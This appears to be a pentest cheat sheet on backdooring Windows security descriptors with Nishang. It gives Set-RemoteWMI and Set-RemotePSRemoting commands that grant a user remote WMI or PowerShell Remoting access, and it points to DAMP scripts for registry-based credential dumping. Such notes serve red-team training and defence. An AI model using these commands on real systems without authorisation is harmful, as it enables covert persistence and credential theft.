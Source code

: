 # DACLs - Security Descriptors

## Tool: Nishang

ACLs can be modified to allow users to access objects.

## 1) WMI

##### On local machine

    Set-RemoteWMI -UserName user1 -Verbose

##### On remote machine without explicit credentials

    Set-RemoteWMI -UserName user1 -ComputerName <computer> -namespace 'root\cimv2' -Verbose

##### On remote machine with explicit credentials. Only root\cimv2 and nested namespaces

    Set-RemoteWMI -UserName user1 -ComputerName <computer> -Credential Administrator -namespace 'root\cimv2' -Verbose

##### On remote machine remove permissions

    Set-RemoteWMI -UserName user1 -ComputerName <computer> -namespace 'root\cimv2' -Remove -Verbose

## 2) Powershell Remoting

##### On local machine

    Set-RemotePSRemoting -UserName user1 -Verbose

##### On remote machine without credentials

    Set-RemotePSRemoting -UserName user1 -ComputerName <computer> -Verbose

##### On remote machine, remove the permissions

    Set-RemotePSRemoting -UserName user1 -ComputerName <computer> -Remove

## 3) Remote Registry

With the scripts from DAMP-master. Permits to realize some actions like credentials dump via the registry.

